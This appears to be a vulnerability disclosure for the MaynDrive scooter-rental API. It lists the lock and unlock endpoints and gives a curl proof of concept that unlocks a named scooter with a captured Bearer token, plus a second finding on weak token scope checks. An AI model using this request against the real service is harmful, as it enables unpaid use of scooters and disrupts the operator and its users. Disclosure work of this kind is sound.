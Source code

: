 ### 3. Critical API Endpoints
- **Unlock**: `POST /api/application/vehicles/unlock`
- **Lock**: `POST /api/application/vehicles/freefloat/lock`
- **Authentication**: Bearer Token in Authorization header

---

## 🚨 Vulnerability Details

### VULNERABILITY #1: Unauthorized Scooter Access
**Severity**: **CRITICAL**  
**CVSS Score**: 9.1 (Critical)

#### Description
The MaynDrive API allows unauthorized unlocking of scooters using captured Bearer tokens without proper permission validation.

#### Proof of Concept
```bash
# Successful attack command
curl -X POST https://api.knotcity.io/api/application/vehicles/unlock \
  -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..." \
  -H "Content-Type: application/json" \
  -d '{
    "serial_number": "TUF061",
    "lat": 47.39027698832425,
    "lng": 0.6889144890010357
  }'

# Response: 200 OK
{"code":0,"data":{"external_locks":[]}}
```

#### Impact
- **Unauthorized scooter access** - Users can unlock scooters they don't own
- **Financial loss** - Unauthorized usage without payment
- **Service disruption** - Scooters unavailable to legitimate users
- **Mass exploitation** - Potential for large-scale attacks

### VULNERABILITY #2: Insufficient Token Validation
**Severity**: **HIGH**  
**CVSS Score**: 7.5 (High)

#### Description
The API accepts Bearer tokens without proper scope validation or permission checks for specific operations.

#### Evidence
- Token remains valid across different operations
- No user-specific permission validation
- Token can be used for any scooter in the system
